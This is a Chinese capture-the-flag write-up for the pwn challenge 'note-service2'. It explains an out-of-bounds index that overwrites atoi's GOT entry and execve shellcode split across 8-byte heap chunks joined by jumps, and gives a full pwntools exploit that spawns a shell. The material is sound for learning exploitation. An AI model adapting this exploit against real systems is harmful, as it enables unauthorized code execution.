



# note-service2

这个题目也是一个第一次遇到的题目基本上可以归类到堆块的shellcode中因此我们要进行一个了解和学习

这里我们还是进行老三样



查看ida的源代码



同样从这里我们可以知道这里大概率时一个菜单题

并且观察整个文件发现他的函数体也就只是实现了add和dete两个模块因此我们可以观察这几个函数



这里我们看到这里并没有对我们输入的indx块进行一个限制因此我们可以在这个位置进行一个数组越界溢出因此我们可以进行一个并且这里还限制了写入的数据的大小只能创建8个字节大小的数据因此

但是在看保护的时候我们发现了一个nx保护并没有开启因此我们可以尝试使用shellcode的方式进行攻击，但是用这种方法的弊端是他要最少也要使用十几个字节来完成这个利用因此我们就要把这个一个shellcode分到多个堆块中因此我们要创建多个堆块，但是这里我们就要考虑如何调用这几个连续的堆块

因此我们就要调用jmp进行一个跳转因此我们要计算这个偏移量的数据

```asm
64位系统调用  
mov rdi,xxxx;/bin/sh字符串的地址  
mov rax,59;execve的系统调用号  
mov rsi,0;  
mov rdx,0  
syscall  
```

这个是我们shellcode的地址

并且我们要申请出atoi的函数got表指向堆块

因此我们要也要算一下这个数据的偏移

(0xa0-0x60)/8=8字节，也就是下标要小于8就可以改到got表了

因此我们的exp脚本

```
from pwn import *
context.log_level='debug'
context.arch='amd64'
io = process("/home/fofa/pwn")
# io = remote("61.147.171.105",64001)
def addr_chunk(index,size,content):
    io.sendlineafter('your choice>>', '1')
    io.sendlineafter('index:', str(index))
    io.sendlineafter('size:', str(size))
    io.sendafter('content:', content)

def delet_chunk(index):
    io.sendlineafter('your choice>>', '4')
    io.sendlineafter('index:', str(index))

# addr_chunk(0,8,'aaaa')
# gdb.attach(io)
# rax = 0 jmp short next_chunk
code0 = (asm('xor rax,rax') + b'\x90\x90\xeb\x19')
# rax = 0x3B jmp short next_chunk
code1 = (asm('mov eax,0x3B') + b'\xeb\x19')
# rsi = 0 jmp short next_chunk
code2 = (asm('xor rsi,rsi') + b'\x90\x90\xeb\x19')
# rdi = 0 jmp short next_chunk
code3 = (asm('xor rdx,rdx') + b'\x90\x90\xeb\x19')
# 系统调用
code4 = (asm('syscall').ljust(7, b'\x90'))

addr_chunk(0, 8, b'a' * 7)
addr_chunk(1, 8, code1)
addr_chunk(2, 8, code2)
addr_chunk(3, 8, code3)
addr_chunk(4, 8, code4)

delet_chunk(0)

addr_chunk(-8, 8, code0)


io.sendlineafter('your choice>>', '/bin/sh')


io.interactive()
```

